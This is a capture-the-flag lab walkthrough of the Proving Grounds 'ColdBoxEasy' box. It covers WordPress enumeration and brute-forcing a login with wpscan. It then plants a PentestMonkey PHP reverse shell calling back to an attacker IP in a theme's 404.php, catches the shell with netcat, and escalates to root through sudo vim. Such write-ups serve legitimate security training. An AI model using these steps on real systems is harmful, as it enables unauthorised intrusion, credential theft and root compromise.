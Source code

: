 # Proving Grounds Play - ColdBoxEasy

#### Ip: 192.168.220.248
#### Name: ColdBoxEasy
#### Rating: Easy
#### Community Rating: Easy

------------------------------------------------

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ sudo nmap -p- -sC -sV --min-rate=10000 192.168.167.239
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-24 12:57 CDT
Nmap scan report for 192.168.167.239
Host is up (0.071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.82 seconds
```

Looking at the page on port 80 we find it is running WordPress.

![pgplay_coldboxeasy_site.png](../assets/coldboxeasy_assets/pgplay_coldboxeasy_site.png)

Kicking off some scanning against the site using wpscan, we find some usernames:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url 192.168.167.239 --enumerate vp,u,vt,tt
```

![pgplay_coldboxeasy_usernames.png](../assets/coldboxeasy_assets/pgplay_coldboxeasy_usernames.png)


Directory fuzzing reveals: http://192.168.167.239/hidden/ which contains an interesting message:

```

U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

### Exploitation

From here we find we can bruteforce user c0ldd's password using wpscan:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url http://192.168.167.239/wp-login.php --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt
<SNIP>
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Let's use this to login:

![pgplay_coldboxeasy_in.png](../assets/coldboxeasy_assets/pgplay_coldboxeasy_in.png)

We can now grab a copy of PentestMonkey's famous php-reverse-shell.php and update the variables for our attacking box:

```php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.171';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Let's then copy the script and go to Appearance > Themes > Editor, and overwrite the 404.php code.

![pgplay_coldboxeasy_themes.png](../assets/coldboxeasy_assets/pgplay_coldboxeasy_themes.png)

From here we can set up a nc listener and navigate to http://192.168.167.239/wp-content/themes/twentyfifteen/404.php to trigger our shell.

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ nc -lnvp 9001                   
listening on [any] 9001 ...
connect to [192.168.45.171] from (UNKNOWN) [192.168.167.239] 33962
Linux ColddBox-Easy 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:31:49 up 37 min,  0 users,  load average: 0.00, 0.08, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ColddBox-Easy
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ 
```

We can now grab the local.txt flag:

![pgplay_coldboxeasy_user.png](../assets/coldboxeasy_assets/pgplay_coldboxeasy_user.png)

### Privilege Escalation

Looking at the wp-config.php file in `/var/www/html` we find some credentials:

![pgplay_coldboxeasy_creds.png](../assets/coldboxeasy_assets/pgplay_coldboxeasy_creds.png)

We can use these to `su c0ldd`:

```
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
Password: 
c0ldd@ColddBox-Easy:/var/www/html$ whoami
c0ldd
```

Seeing what c0ldd can run with elevated permissions:

```
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Cool, we've got a few options here, let's exploit vim for a root shell:

Let's head to gtfobins and grab the command we'll need: https://gtfobins.github.io/gtfobins/vim/#sudo

```
sudo /usr/bin/vim -c ':!/bin/sh'
```

We can now grab the root flag:

![pgplay_coldboxeasy_root.png](../assets/coldboxeasy_assets/pgplay_coldboxeasy_root.png)

Thanks for following along!

-Ryan

